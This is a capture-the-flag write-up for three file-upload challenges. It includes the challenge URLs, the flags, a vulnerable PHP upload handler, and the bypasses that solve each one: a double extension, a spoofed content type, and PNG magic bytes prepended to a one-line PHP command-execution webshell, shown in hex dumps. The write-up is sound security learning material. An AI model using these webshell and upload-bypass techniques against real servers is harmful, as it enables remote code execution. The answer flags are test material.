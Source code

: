 # Chal

Tag: `Upload`

## Challenge 1

[http://h4ck3r.quest:9010/](http://h4ck3r.quest:9010/)

## Writeup 1

No protection, just upload any webshell you like.

## Flag 1

`FLAG{upl0ad_t0_pwn!!!}`

## Challenge 2

[http://h4ck3r.quest:9011/](http://h4ck3r.quest:9011/)

## Writeup 2

Check the extension. Change filename to `shell.jpg.php` works.

## Flag 2

`FLAG{ext3ns10n_ch3ck_f4il3d}`

## Challenge 3

[http://h4ck3r.quest:9012/](http://h4ck3r.quest:9012/)

## Writeup 3

Source:

```php
<?php
if (!isset($_FILES['image_file'])) {
    die('Give me a file!');
}

$filename = basename($_FILES['image_file']['name']);
$extension = strtolower(explode(".", $filename)[1]);

if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
    die("Invalid file extension: $extension.");
}

if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false) {
    die("Invalid file type: " . $_SERVER["CONTENT_TYPE"]);
}

list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);

if ($type !== IMAGETYPE_JPEG && $type !== IMAGETYPE_PNG) {
    die("Invalid image type.");
}

$prefix = bin2hex(random_bytes(8));
move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
echo "<img src=\"/images/${prefix}_${filename}\">";
?>
```

It's easy to send a fake file type since we can just modify the header. (Burp Suite again.)

So now we need to fake the file signature. [Ref](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md#upload-tricks)

However, I'm not sure why I cannot fake a jpg file...

```bash
$ xxd shell.jpg.php 
00000000: ffd8 ffe0 0a3c 3f70 6870 2073 7973 7465  .....<?php syste
00000010: 6d28 245f 4745 545b 2763 6d64 275d 293b  m($_GET['cmd']);
00000020: 203f 3e0a                                 ?>.
                                                                                                                                                        
$ file shell.jpg.php
shell.jpg.php: JPEG image data
```

Faking PNG works fine. 

```bash
$ xxd new.jpg.php   
00000000: 8950 4e47 0d0a 1a0a 200d 0a3c 3f70 6870  .PNG.... ..<?php
00000010: 2073 7973 7465 6d28 245f 4745 545b 2763   system($_GET['c
00000020: 6d64 275d 293b 203f 3e0d 0a              md']); ?>..
```

## Flag 3

`FLAG{byp4ss_all_th3_things}`

## Postscript

Uploading file is really dangerous... We need to set up a lot of protection.
